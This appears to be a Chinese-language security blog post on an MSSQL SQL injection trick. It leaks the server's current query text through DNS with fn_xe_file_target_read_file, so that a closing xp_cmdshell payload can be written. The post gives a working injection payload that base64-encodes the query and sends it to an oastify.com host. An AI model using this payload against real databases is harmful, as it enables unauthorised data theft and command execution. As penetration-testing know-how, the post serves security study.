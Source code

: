 ```yaml
---
layout: post
title:  "MSSQL SQL注入 xp_cmdshell的一个技巧"
date:   2025-09-03 17:46:23 +0800
categories: jekyll update
---
```

# MSSQL SQL注入 xp_cmdshell的一个技巧
Mssql发生sqli注入后, 如果是is_srvrolemember权限, 可以通过xp_cmdshell执行系统命令. xp_cmdshell需要闭合当前查询, 起一个新query(stacked query). 在实际工作中, 闭合当前查询往往并不十分容易, 例如原查询是
```SQL
select count(*) 
from (
  select optname 
  from [dbo].[MSreplication_options] 
  where 1=1) 
countable;
```
其中 1=1 攻击者可控. 在这个例子里, 使用一些不需要的闭合sql语句的简单用例, 例如substring(@@version,1,1)='M'是可以达到bool型的sql注入的, 但是执行xp_cmdshell并不容易. 多行的SQL语句, 简单的使用-- 单行注释语法并不能合法的闭合sql语句, 整个sql语句会因为语法错误而失败. 对于这种情况, 需要猜测原始的sql语句是什么才能有效闭合. 

注意到, MSSQL中, 如下表达式可以查询本次的SQL语句是什么.
```SQL
select text from sys.dm_exec_requests cross apply sys.dm_exec_sql_text(sql_handle)
```

对于以上的例子, 可以使用这个查询, 配合fn_xe_file_target_read_file这个函数的dns exfilterate, 把整个语句通过dns泄漏出来. 这样就可以针对性写出可以闭合sql语句的xp_cmdshell payload了. 

整体poc如下(用来替代原查询里的1=1)
``` SQL
exists(select * from fn_xe_file_target_read_file('C:\*.xel','\\'+substring((SELECT CAST(((select text from sys.dm_exec_requests cross apply sys.dm_exec_sql_text(sql_handle))) as varbinary(max)) FOR XML PATH(''), BINARY BASE64),1,60)+'.569py62fphof3b1e6zml1966wx2oqoed.oastify.com\1.xem',null,null))
```
注意到URL hostname label 不能超过63字节. 所以要substring一部分一部分dns exfiltrate出来. 

这个方法是非常通用的, 前提条件只需要VIEW SERVER STATE权限. 一般情况下, 只有在is_srvrolemember('sysadmin') 权限下我们才关心xp_cmdshell和闭合, 所以VIEW SERVER STATE是自动满足的.

一些注意事项: 

如果攻击者的payload被用在多条查询中一次执行(例如比较大的存储过程), 这个方法只能暴露第一条sql查询. 因为fn_xe_file_target_read_file在第一次执行后就运行时错误退出了.

如果攻击者的payload被用在多条查询中一次执行, 如果每处的syntax有较大差别, 那么即使知道原语句, 也不一定写得出每处都可以合法闭合的payload. 例如:
```SQL
select count(*) from (select optname from [dbo].[MSreplication_options] where 1=1) countable;
select optname from [dbo].[MSreplication_options] where 1=1;
```
注入点是1=1. 闭合第一句需要一个右括号,第二句不需要. 
